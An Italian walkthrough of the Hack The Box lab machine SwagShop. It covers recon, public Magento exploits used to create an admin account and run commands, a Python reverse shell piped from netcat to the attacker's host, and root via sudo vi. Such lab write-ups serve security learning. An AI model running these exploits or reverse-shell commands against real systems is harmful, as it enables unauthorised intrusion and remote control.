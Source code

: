 # SwagShop

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.140
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|   256 2e:30:00:7a:92:f0:89:30:59:c1:77:56:ad:51:c0:ba (ECDSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Did not follow redirect to http://swagshop.htb/
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/6%OT=22%CT=1%CU=42848%PV=Y%DS=2%DC=I%G=Y%TM=6548E6D
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Aggiungo _swagshop.htb_ al file _/etc/hosts_ e passo alla fase successiva.

## Enumeration

Innanzitutto, visito la pagina http://swagshop.htb/:

<p align="center">
  <img src="/Immagini/Linux-Box/SwagShop/swagshop-1.png" />
</p>

Provo ad utilizzare il comando _dirsearch_:

```text
dirsearch -u http://swagshop.htb/
```

```text
[08:21:43] Starting:
[08:21:46] 301 -  309B  - /js  ->  http://swagshop.htb/js/
[08:21:47] 403 -  277B  - /.ht_wsr.txt
[08:21:47] 403 -  277B  - /.htaccess.bak1
[08:21:47] 403 -  277B  - /.htaccess.sample
[08:21:47] 403 -  277B  - /.htaccess.orig
[08:21:47] 403 -  277B  - /.htaccess_sc
[08:21:47] 403 -  277B  - /.htaccess.save
[08:21:47] 403 -  277B  - /.htaccess_extra
[08:21:47] 403 -  277B  - /.htaccessOLD
[08:21:47] 403 -  277B  - /.htaccessOLD2
[08:21:47] 403 -  277B  - /.htm
[08:21:47] 403 -  277B  - /.htpasswds
[08:21:47] 403 -  277B  - /.httr-oauth
[08:21:47] 403 -  277B  - /.htpasswd_test
[08:21:47] 403 -  277B  - /.html
[08:21:48] 403 -  277B  - /.htaccessBAK
[08:21:48] 403 -  277B  - /.htaccess_orig
[08:21:48] 403 -  277B  - /.php
[08:21:48] 403 -  277B  - /.php3
[08:21:53] 200 -   10KB - /LICENSE.txt
[08:22:12] 200 -   37B  - /api.php
[08:22:12] 301 -  310B  - /app  ->  http://swagshop.htb/app/
[08:22:13] 403 -  277B  - /app/.htaccess
[08:22:13] 200 -    2KB - /app/
[08:22:13] 200 -    5KB - /app/etc/config.xml
[08:22:13] 200 -    9KB - /app/etc/local.xml.additional
[08:22:13] 200 -    2KB - /app/etc/local.xml.template
[08:22:13] 200 -    2KB - /app/etc/local.xml
[08:22:27] 200 -    0B  - /cron.php
[08:22:27] 200 -  717B  - /cron.sh
[08:22:27] 200 -  571KB - /RELEASE_NOTES.txt
[08:22:32] 301 -  313B  - /errors  ->  http://swagshop.htb/errors/
[08:22:32] 200 -    2KB - /errors/
[08:22:33] 200 -    1KB - /favicon.ico
[08:22:37] 200 -  946B  - /includes/
[08:22:37] 301 -  315B  - /includes  ->  http://swagshop.htb/includes/
[08:22:37] 200 -   16KB - /index.php
[08:22:38] 200 -   44B  - /install.php
[08:22:39] 200 -    4KB - /js/tiny_mce/
[08:22:40] 301 -  318B  - /js/tiny_mce  ->  http://swagshop.htb/js/tiny_mce/
[08:22:40] 200 -    3KB - /lib/
[08:22:40] 301 -  310B  - /lib  ->  http://swagshop.htb/lib/
[08:22:44] 200 -    2KB - /media/
[08:22:44] 301 -  312B  - /media  ->  http://swagshop.htb/media/
[08:22:51] 200 -  886B  - /php.ini.sample
[08:22:54] 301 -  314B  - /pkginfo  ->  http://swagshop.htb/pkginfo/
[08:22:59] 403 -  277B  - /server-status/
[08:22:59] 403 -  277B  - /server-status
[08:23:00] 301 -  312B  - /shell  ->  http://swagshop.htb/shell/
[08:23:00] 200 -    2KB - /shell/
[08:23:01] 301 -  311B  - /skin  ->  http://swagshop.htb/skin/
[08:23:09] 200 -    4KB - /var/cache/
[08:23:09] 301 -  310B  - /var  ->  http://swagshop.htb/var/
[08:23:09] 200 -  755B  - /var/backups/
[08:23:09] 200 -    2KB - /var/
[08:23:09] 200 -    9KB - /var/package/
```

Verifico la presenza di vulnerabilità relative a _Magento_ tramite _searchsploit_:

<p align="center">
  <img src="/Immagini/Linux-Box/SwagShop/swagshop-4.png" />
</p>

Mi sembra ci sia abbastanza materiale per poter passare alla fase successiva.

## Exploitation


Tra queste vulnerabilità, quella più interessante mi sembra la _37977.py_. Scarico il file, modifico il campo target inserendo http://swagshop.htb/index.php e lo eseguo ottenendo il seguente risultato:

```text
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```

Quindi visito il sito indicato e inserisco le credenziali:

<p align="center">
  <img src="/Immagini/Linux-Box/SwagShop/swagshop-2.png" />
</p>

<p align="center">
  <img src="/Immagini/Linux-Box/SwagShop/swagshop-3.png" />
</p>

Una volta ottenuto l'accesso, provo ad utilizzare l'exploit _37811.py_.

Dopo aver studiato il funzionamento del codice, modifico i campi username e password con quelli dell'utenza creata precedentemete e il campo _install_date_ con la data che trovo al seguente indirizzo http://swagshop.htb/app/etc/local.xml.

Quindi lancio questo comando:

```text
python2 script2.py http://swagshop.htb/index.php/admin "uname -a"
```

E ottengo il seguente risultato:

```text
Linux swagshop 4.15.0-213-generic #224-Ubuntu SMP Mon Jun 19 13:30:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

**Sfruttando questo script navigo tra le directory e trovo il primo flag!**

```text
python2 37811.py http://swagshop.htb/index.php/admin "cat /home/haris/user.txt"
```

## Privilege Escalation

Ora devo cercare di ottenere una shell.

Prima di tutto creo il seguente script in python _shell.py_:

```text
import socket,subprocess,os;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.5",443));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

import pty;

pty.spawn("/bin/bash")
```

Avvio un listener sulla porta 443:

```text
nc -nlvp 443
```

E uno sulla porta 1234:

```text
nc -lvp 1234 < shell.py
```

Successivamente lancio il seguente comando:

```text
python2 37811.py http://swagshop.htb/index.php/admin "nc 10.10.14.5 1234 | python3"
```

Ottengo cosi la shell:

<p align="center">
  <img src="/Immagini/Linux-Box/SwagShop/swagshop-5.png" />
</p>

Lancio il seguente comando:

```text
sudo -l
```

Il risultato è il seguente:

```text
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

**Quindi seguo questa [guida](https://gtfobins.github.io/gtfobins/vi/) e divento root!**

<p align="center">
  <img src="/Immagini/Linux-Box/SwagShop/swagshop-6.png" />
</p>

## Credits

- [Ivan](https://ivanitlearning.wordpress.com/2020/09/15/hackthebox-swagshop/)
